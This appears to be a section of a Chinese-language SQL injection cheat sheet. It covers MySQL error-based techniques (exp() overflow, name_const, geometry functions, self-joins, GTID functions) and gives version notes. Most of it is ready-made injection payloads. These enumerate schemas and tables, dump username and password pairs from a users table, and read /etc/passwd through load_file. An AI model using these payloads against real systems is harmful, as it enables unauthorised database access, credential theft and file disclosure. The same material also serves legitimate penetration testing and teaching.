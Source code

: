 ### exp
`exp(int)` 作用：该函数回返回e的x次方结果
适用版本：5.5.5~5.5.49
次方到后边每增加1，其结果都将跨度极大，而mysql能记录的double数值范围有限，一旦结果超过范围，则该函数报错，当传递一个大于709的值时，函数exp()就会引起一个重叠错误。
`ln`函数和`log`函数都是返回以e为底数的对数，可以用`exp`和`ln/log`进行数据的换算，从而获取我们想要的信息
```sql
select exp(~(select * from(select database())a));

select exp(~(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x)) --+ 获取获取表的字段

select exp(~(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x)) --+ 获取获取表的字段

select exp(~ (select*from(select concat_ws(':',username, password) from users limit 0,1)x)) --+ 获取数据

select exp(~(select*from(select load_file('/etc/passwd'))a)) --+ 读取文件
```
注：a或x可以是任意的字母，代表的是查询返回的值组成一个集合，这个集合的名字为a或x或其他。`~`代表取反符号，过子查询与按位求反，造成一个DOUBLE overflow error，并借由此注出数据

### name_const
mysql列名重复会报错，但是只能获取数据库版本信息
```sql
select * from(select name_const(version(),0x1),name_const(version(),0x1))a
```

### 几何函数
```sql
GeometryCollection：id=1 AND GeometryCollection((select * from (select* from(select user())a)b))
polygon()：id=1 AND polygon((select * from(select * from(select user())a)b))
multipoint()：id=1 AND multipoint((select * from(select * from(select user())a)b))
multilinestring()：id=1 AND multilinestring((select * from(select * from(select user())a)b))
linestring()：id=1 AND LINESTRING((select * from(select * from(select user())a)b))
multipolygon() ：id=1 AND multipolygon((select * from(select * from(select user())a)b))
```

###  join
适用版本： 5.5.49+ 
通过系统关键词join可建立两个表之间的内连接。
通过对想要查询列名的表与其自身建议内连接，会由于冗余的原因(相同列名存在)，而发生错误。
并且报错信息会存在重复的列名，可以使用 USING 表达式声明内连接（INNER JOIN）条件来避免报错。
```sql
mysql> select * from(select * from users a join (select * from users)b)c;
mysql> select * from(select * from users a join (select * from users)b using(username))c;
mysql> select * from(select * from users a join (select * from users)b using(username,password))c
```


### GTID相关函数
适用版本： 5.6.5+ 
参数格式不正确导致出现错误
```sql
mysql> select gtid_subset(user(),1);
mysql> select gtid_subset(hex(substr((select * from users limit 1,1),1,1)),1);
mysql> select gtid_subtract((select * from(select user())a),1);
```
